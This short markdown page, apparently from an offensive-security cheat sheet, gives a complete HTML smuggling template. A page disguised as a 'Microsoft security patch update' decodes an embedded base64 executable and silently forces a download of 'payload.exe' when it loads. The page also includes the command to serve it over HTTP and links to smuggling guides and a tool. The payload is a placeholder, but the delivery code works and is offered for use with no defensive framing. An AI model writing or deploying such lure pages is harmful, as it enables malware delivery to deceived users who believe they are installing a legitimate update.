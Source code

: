 # HTML Smuggling

## 01 - Manual

`$ cat html_smuggling.html`

---

```html
<html>
    <body>
        <h1>
            Security Patch Update!
        </h1>
        <p>
            Please install this Microsoft security patch update!
        </p>
        <script>
            function Base64ToArray(base64) {
                var binary_string = window.atob(base64);
                var len = binary_string.length;
                var bytes = new Uint8Array(len);
                for(var i = 0; i < len; i++)
                    bytes[i] = binary_string.charCodeAt(i);
                return bytes.buffer;
            }
            // $ cat payload.exe | base64 -w 0
            var base64_binary = '<base64_payload>'
            
            var data = Base64ToArray(base64_binary);
            var blob = new Blob([data], {type: 'octet/stream'});
            var payloadfilename = 'payload.exe';
            
            var anchor = document.createElement('a');
            document.body.appendChild(anchor);
            anchor.style = 'display: none';
            var url = window.URL.createObjectURL(blob);
            anchor.href = url;
            anchor.download = payloadfilename;
            anchor.click();
            window.URL.revokeObjectURL(url);
        </script>
    </body>
</html>
```

`$ sudo python -m http.server 80`

## References

- [A Detailed Guide on HTML Smuggling](https://www.hackingarticles.in/a-detailed-guide-on-html-smuggling/)

• [GhostInHTML](https://github.com/exploitblizzard/GhostInHTML)